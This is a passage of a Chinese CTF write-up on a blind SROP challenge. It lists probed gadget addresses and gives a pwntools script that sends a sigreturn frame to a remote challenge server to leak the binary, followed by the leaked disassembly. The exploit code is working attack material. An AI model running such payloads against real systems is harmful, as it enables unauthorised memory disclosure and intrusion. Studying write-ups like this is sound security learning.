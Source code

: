 经测试地址及指令如下

```css
『NORMAL HEAD』================>『0X4000B0』    main函数地址
『STOP』================>『0X4000C7』           syscall
『STOP』================>『0X4000C9』           call func
『STOP』================>『0X4000EE』           read ret
```



---

## 攻击测试 SROP

```python
###已知地址
mainAddr = 0X4000B0
readRet = 0X4000EE
sysCall = 0X4000c7
base = 0x400000

p,pb,libc = init(r="123.59.196.133:10053",log="debug",lg=0)

frame = SigreturnFrame()
frame.rip = sysCall
frame.rax = 1
frame.rdi = 1
frame.rsi = base
frame.rdx = 0x1000
frame.rsp = base
frame.rbp = base

p.sendlineafter("hacker, TNT!\n",b"A"*0x10+p64(readRet)+p64(sysCall)+bytes(frame))

sleep(0.1)
p.send(b"A"*15)
r = p.recv(0x578)
f = open("./pwn","wb")
f.write(r)
f.flush()

p.interactive()
```

最终成功泄露出程序

```assembly
4000B0 mov     eax, 1
4000B5 mov     rdi, rax                        ; fd
4000B8 mov     rsi, offset hello               ; buf
4000C2 mov     edx, 0Dh                        ; count
4000C7 syscall                                 ; LINUX - sys_write
4000C9 call    TNT66666
4000C9 
4000CE mov     eax, 1
4000D3 mov     rdi, rax                        ; error_code
4000D6 mov     rsi, offset byebye              ; "TNT TNT!\n"
4000E0 mov     edx, 9                          ; count
4000E5 syscall                                 ; LINUX - sys_write
4000E7 mov     eax, 3Ch ; '<'
4000EC syscall                                 ; LINUX - sys_exit
4000EC 
4000EC _start endp
4000EC 
4000EE 
4000EE ; =============== S U B R O U T I N E =======================================
```